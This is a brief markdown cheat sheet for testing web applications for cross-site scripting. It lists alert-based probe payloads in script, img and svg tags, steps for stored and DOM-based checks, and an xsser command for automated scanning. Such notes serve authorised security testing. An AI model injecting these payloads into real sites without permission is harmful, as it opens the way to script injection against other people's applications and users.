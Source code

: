 # Cross-Site Scripting (XSS)

## Quick Test Payloads
<script>alert(1)</script>
"><script>alert(1)</script>
<img src=x onerror=alert(1)>
<svg/onload=alert(1)>

## Persistent XSS Test
- Inject into profile fields, comments, forums
- Reload and check execution

## DOM-Based XSS Check
- Use browser dev tools console: `document.location`
- Inject: `#<script>alert(1)</script>`

## Automation

xsser --url <URL> --auto
